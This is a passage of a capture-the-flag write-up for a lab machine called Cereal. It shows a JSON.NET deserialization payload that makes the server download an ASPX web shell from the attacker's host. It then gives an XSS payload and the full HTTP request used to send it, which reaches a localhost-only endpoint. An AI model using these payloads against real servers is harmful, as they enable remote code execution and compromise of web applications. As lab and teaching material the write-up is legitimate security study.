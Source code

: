 As seen before in the source code in _Controllers/RequestsControllers.cs_ there is a filter against **deserialization attacks**.
If this filter can be bypassed, then it should be possible to exploit this vulnerability.
The code also shows that it uses the library [Newtonsoft.Json](https://www.newtonsoft.com/json).

This [research paper on Blackhat.com](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf) has some examples for this library to use for the payload.

The source code of the file _DownloadHelper.cs_ has code to download files from a web server, but the function is not called anywhere, so we will use it in our payload.

Deserialization payload:
```json
{
  "$type": "Cereal.DownloadHelper, Cereal",
  "URL": "http://10.10.14.11/cmd.aspx",
  "FilePath": "C:/inetpub/source/uploads/cmd.aspx"
}
```

In _Controllers/RequestsControllers.cs_ is another policy called _RestrictIP_.
This is used in _Startup.cs_ and refers to _appsettings.json_:
```
"ApplicationOptions": {
    "Whitelist": [ "127.0.0.1", "::1" ]
```

So the deserialization can only be accessed from localhost, which means that a **Server-Side Request Forgery (SSRF)** or **Cross-Site Scripting (XSS)** vulnerability has to be found to bypass that restriction.

In the file _App/App.jsx_ it discloses that there is an _/admin_ path:
```html
<PrivateRoute exact path="/" component={HomePage} />
<PrivateRoute path="/admin" component={AdminPage} />
<Route path="/login" component={LoginPage} />
```

The file _AdminPage/AdminPage.jsx_ uses the module _react-marked-markdown_ which is not maintained anymore and has a [XSS vulnerability](https://github.com/advisories/GHSA-m7qm-r2r5-f77q).

Cross-Site Scripting payload:
```
[XSS](javascript: document.write`<img src=http://10.10.14.11/test />`)
```

Sending the request with the XSS payload:
```
POST /requests HTTP/2
Host: 10.10.10.217
(...)
Content-Type: application/json
(...)
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1bmlxdWVfbmFtZSI6IjEiLCJuYmYiOjE2NTI1NDg2MTUsImV4cCI6MTY1MzE1MzQxNSwiaWF0IjoxNjUyNTQ4NjE1fQ.RJSP7T11NA9rUK8d2G6QrYiqXfOahE5Hn9pKzvnQdUo

{"json":"{\"title\":\"[XSS](javascript: document.write`<img src=http://10.10.14.11/test />`)\",\"flavor\":\"pizza\",\"color\":\"#FFF\",\"description\":\"test1\"}"}
```
